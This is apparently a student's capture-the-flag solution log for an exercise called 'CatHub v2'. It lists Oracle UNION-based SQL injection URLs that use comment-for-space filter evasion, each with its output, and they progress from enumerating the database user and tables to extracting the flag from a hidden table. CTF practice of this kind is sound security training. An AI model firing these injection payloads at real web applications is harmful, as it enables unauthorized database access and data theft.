 # CatHub v2 solution step by step

## finished
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/1,user,null/**/from/**/dual/**/where/**/rownum/**/=/**/1` --> SCOTT
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/1,SYS.DATABASE_NAME,null/**/from/**/dual` --> XE
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/DISTINCT/**/1,OWNER,null/**/from/**/ALL_TABLES` --> XDB (DB_NAME_META)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/DISTINCT/**/1,OWNER,null/**/from/**/ALL_TABLES/**/where/**/rownum=1` --> SYS (DB_NAME)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,TABLE_NAME,null/**/from/**/ALL_TABLES` --> AUDIT_ACTIONS (TABLE_NAME_META)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,COLUMN_NAME,null/**/from/**/ALL_TAB_COLUMNS` --> ABORT_STEP (COLUMN_NAME_META)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,COLUMN_NAME,null/**/from/**/ALL_TAB_COLUMNS/**/where/**/rownum=1` --> DUMMY (COLUMN)   
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,DUMMY,null/**/from/**/sys.dual/**/where/**/rownum=1` --> ERROR  


## currently working on 

`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,TABLE_NAME,null/**/from/**/USER_TABLES` --> BONUS

`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,user,null/**/from/**/USER_TABLES` --> BONUS

`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,TABLE_NAME,null/**/from/**/(SELECT/**/ROWNUM/**/r,/**/TABLE_NAME FROM/**/user_tables/**/ORDER/**/BY/**/TABLE_NAME)/**/WHERE/**/r=1`--> DEPT


`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,COLUMN_NAME,null/**/from/**/USER_TAB_COLUMNS` --> COMM




## Work part

`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,table_name,null/**/from/**/(SELECT/**/ROWNUM/**/r,table_name/**/FROM/**/user_tables/**/ORDER/**/BY/**/table_name)/**/where/**/r=6` --> WORK!!!! S3CRET!

`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,column_name,null/**/from/**/(SELECT/**/ROWNUM/**/r,column_name/**/FROM/**/user_tab_columns/**/ORDER/**/BY/**/column_name)/**/where/**/r=19` --> WORK!!!! V3RY_S3CRET_C0LUMN!

`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,V3RY_S3CRET_C0LUMN,null/**/from/**/S3CRET` --> FLAG{HEY___OR@CLE_D4TAB4S3__INJ3CTI0N_I5____TO0OOO0OOO0OO_E4SY!!!!!??}